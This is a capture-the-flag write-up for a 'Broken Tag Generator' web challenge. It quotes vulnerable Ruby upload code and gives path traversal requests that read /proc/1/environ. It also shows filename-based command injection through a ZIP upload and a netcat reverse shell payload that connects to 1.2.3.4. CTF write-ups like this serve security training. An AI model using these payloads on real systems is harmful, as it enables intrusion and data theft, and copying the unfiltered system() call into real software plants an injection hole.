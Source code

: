 # Broken Tag Generator

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>
**Direct link**: [tag-generator website](https://tag-generator.kringlecastle.com/)<br/>
**Terminal hint**: [Redis Bug Hunt](../hints/h8.md)


## Objective

!!! question "Request"
    Help Noel Boetie fix the [Tag Generator](https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

??? quote "Noel Boetie"
    Welcome to the Wrapping Room, Santa!<br/>
    The tag generator is acting up.<br/>
    I feel like the issue has something to do with weird files being uploaded.<br/>
    Can you help me figure out what's wrong?<br/>


## Hints

??? hint "Patience and Timing"
    Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!

??? hint "Source Code Analysis"
    I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?

??? hint "Endpoint Exploration"
    Is there an endpoint that will print arbitrary files?

??? hint "Content-Type Gotcha"
    If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!

??? hint "Error Page Message Disclosure"
    Can you figure out the path to the script? It's probably on error pages!

??? hint "Download File Mechanism"
    Once you know the path to the file, we need a way to download it!

??? hint "Source Code Retrieval"
    We might be able to find the problem if we can get source code!

??? hint "Redirect to Download"
    If you find a way to execute code blindly, I bet you can redirect to a file then download that file!


## Solution

!!! note "Quick 'n dirty or reverse shell?"
    You can either solve this with minimal effort or you can go for a [reverse shell](./o8.md#reverse-shell). We'll explore both options! :smile:


### Short solution

Start by analyzing the [`app.js`](https://tag-generator.kringlecastle.com/js/app.js) JavaScript code. After a successful file upload the uploaded image will be accessible via the `/image?id=` endpoint with `id` being a randomly generated value that identifies the image (line 7). 

```javascript linenums="1" hl_lines="7"
success: function (data) {
  $('.uploadForm')[0].reset();
  $('[for=file-1] span').text('Select file(s)');
  setTimeout(() => {
    data.forEach(id => {
      var img = $('<img id="dynamic">');
      img.attr('src', `/image?id=${id}`);
      img.on('load', () => {
        const imgElement = img[0];
        var imgInstance = new fabric.Image(imgElement, {
          left: (canvas.width - imgElement.width) / 2,
          top: (canvas.height - imgElement.height) / 2,
          angle: 0,
          opacity: 1
        });
        canvas.add(imgInstance);
      });
    });
  }, 500);
},
```

The `/image?id=` endpoint appears to be vulnerable to a [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal), allowing us to read files on the remote system. Since the objective is to read the value of an environment variable and pretty much everything on Linux is considered a file, a request to `/image?id=../../../proc/1/environ` will return the information we need in the HTTP response, including `GREETZ`. :stuck_out_tongue_winking_eye:

![Short solution](../img/objectives/o8/solution_short.png)


### Longer solution

An HTTP request using an invalid `id` will result in a 404 error response with a message stating `Error in /app/lib/app.rb: Route not found`. This tells us the location of the backend Ruby on Rails source code file.

![HTTP request error](../img/objectives/o8/raw_response.png)

!!! info "Tricking web browsers using `X-Content-Type-Options: nosniff`"
    The `X-Content-Type-Options: nosniff` header in the HTTP response message prevents web browsers from doing MIME-type sniffing. The web browser will take whatever is set as the `Content-Type` and assume that information is correct. In this case, the HTTP response tells the browser the data is an `image/jpg` file which the browser fails to render. As a result, using an invalid `id` in a web browser will display an image rendering error instead.

    ```
    The image “https://tag-generator.kringlecastle.com/image?id=somethingsomething%20test” cannot be displayed because it contains errors.
    ```

We can leverage the same [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal) as before by issuing a request to `https://tag-generator.kringlecastle.com/image?id=../../../app/lib/app.rb` to download [`app.rb`](../artifacts/objectives/o8/app.rb). Because the backend code does not filter the `filename` variable prior to using it in the `system` call, we can leverage this flaw to execute our own code (line 7).

```ruby linenums="1" hl_lines="7"
def handle_image(filename)
  out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
  out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

  # Resize and compress in the background
  Thread.new do
    if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
      LOGGER.error("Something went wrong with file conversion: #{ filename }")
    else
      LOGGER.debug("File successfully converted: #{ filename }")
    end
  end
```

Structuring the filename of the uploaded file as `myfile';command_to_run;ls '.png` will translate the `convert` command into `convert -resize 800x600\\> -quality 75 'myfile';`, `command_to_run;`, and `ls '.png' '#{ out_path }'`. Nudging our own command neatly in the middle. 

The `process_file()` function tells us the app allows uploading files with an extension matching either `.jpg`, `.jpeg`, `.png`, or `.zip`. To prevent our uploaded file from being renamed at the server side we can leverage the `handle_zip()` function as it leaves filenames as-is after unpacking the uploaded archive (line 7). Luckily for us, Jack also commented out the filename validation code (line 2). Thanks, Jack! :thumbsup:

```ruby linenums="1" hl_lines="2 7"
# I wonder what this will do? --Jack
# if entry.name !~ /^[a-zA-Z0-9._-]+$/
#   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
# end

# We want to extract into TMP_FOLDER
out_file = "#{ TMP_FOLDER }/#{ entry.name }"

# Extract to file or directory based on name in the archive
entry.extract(out_file) {
  # If the file exists, simply overwrite
  true
}

# Process it
out_files << process_file(out_file)
```

To retrieve the value of the `GREETZ` environment variable, create an image file named `myfile';echo $GREETZ>the_GREETZ_tag.txt;ls '.png`, add it to a [ZIP file](../tools/objectives/o8/GREETZ_payload.zip), and upload it using the tag generator application. The application will unpack the archive, execute our command, and save the output to `/tmp/the_GREETZ_tag.txt` which we can then download using a request to `https://tag-generator.kringlecastle.com/image?id=../../../tmp/the_GREETZ_tag.txt`. :boom:

![Longer solution](../img/objectives/o8/solution_long.png)

!!! done "Answer"
    JackFrostWasHere

!!! note "Reverse shell<span id="reverse-shell"></span>"
    A request to `https://tag-generator.kringlecastle.com/image?id=../../../bin/nc` confirms that netcat is available so we can leverage the code execution vulnerability to establish a reverse shell with full interactive access. The command we need to run on the host is `nc 1.2.3.4 55100 -e /usr/bin/sh`, but forward slashes are not an option as they're not allowed in a file name.
    
    We can work around this limitation by using `` `which sh` `` to ask the system what the full path for the `sh` binary is, instead of specifying it as part of the filename. The image filename now becomes ``myfile';nc 1.2.3.4 55100 -e `which sh`;ls '.png``. Set up a local listener using `nc -nlvp 55100`, upload the [zipped image file](../tools/objectives/o8/reverse_shell_payload.zip), and wait for the reverse shell connection to be established.

    ![Reverse shell](../img/objectives/o8/reverse_shell.png)
